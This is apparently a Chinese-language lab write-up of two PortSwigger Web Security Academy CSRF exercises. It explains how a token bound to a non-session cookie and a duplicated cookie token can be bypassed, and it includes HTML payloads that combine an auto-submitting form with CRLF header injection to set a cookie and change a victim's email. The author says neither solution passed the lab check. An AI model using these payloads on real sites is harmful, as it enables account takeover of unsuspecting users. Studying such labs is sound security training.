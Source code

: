 #### 实验：令牌与非会话 cookie 绑定的 CSRF

这个看描述的时候没看懂，看了请求，发现里面有两个csrf参数，一个是csrf，在请求体中，还有一个是csrfkey，在cookie中

这里的思路是一个个测试
1.只修改csrf参数，改成错误的，无法请求
2.修改csrf参数成另一个用户的，也无法请求
3.修改csrfkey成错误的，也无法请求
4.修改csrfkey成另一个用户的，无法请求
5.将csrf参数和csrfkey都修改成另一个用户的，请求成功

所以这里的意思就是csrfkey和csrf参数是绑定的，但是和cookie不绑定，所以只需要随便一个用户的这两个值，就可以修改任何用户的邮箱

然后就是攻击了，后面csrf参数和前面是一样的，但是前面的csrfkey的获取是未知的

发现在这个实验室有个搜索框，解决办法就是通过这个注入来修改csrfkey变成已知的

![](https://pic.imgdb.cn/item/671b5f24d29ded1a8cf7d4c3.png)

然后就是注入了

```html
<form method="POST"action="https://0a4700cb03cf5c48825d1bc600cc0011.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="marin@email">
    <input type='hidden' name="csrf"  value="UZK0tfHc5f5IwAFJJ2z9H6ivA5u93ZUd"> 
</form>

<img src="https://0a4700cb03cf5c48825d1bc600cc0011.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%20" onerror="document.forms[0].submit()">
```

先通过和之前实验一样的方法加入请求体
然后不同是不再是直接提交表单，而是先用一个img标签通过搜索修改csrfkey的值，然后再提交表单这样就成功修改了

 **%0d%0a**代表一个完整的换行符序列
 **%3b**是分号

#### 实验：cookie 中存在重复 token 的 CSRF

这里有两个参数，csrf和csrfkey，但是发现这两个参数的值是一样的，尝试修改值，确保两个值相等，发现也能修改邮箱，所以无需csrf值，只要两个值相同就行

![](https://pic.imgdb.cn/item/671c59c4d29ded1a8cbfb14a.png)

```html
<form method="POST"action="https://0a4700cb03cf5c48825d1bc600cc0011.web-security-academy.net/my-account/change-email">   
    <input type="hidden" name="email" value="marin@email">    
    <input type='hidden' name="csrf"  value="mairn"> 
</form>

<img src="https://0a4700cb03cf5c48825d1bc600cc0011.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=marin%20" onerror="document.forms[0].submit()">
```

确实能改邮箱，但是不知道为啥一直过不了，上面的也是
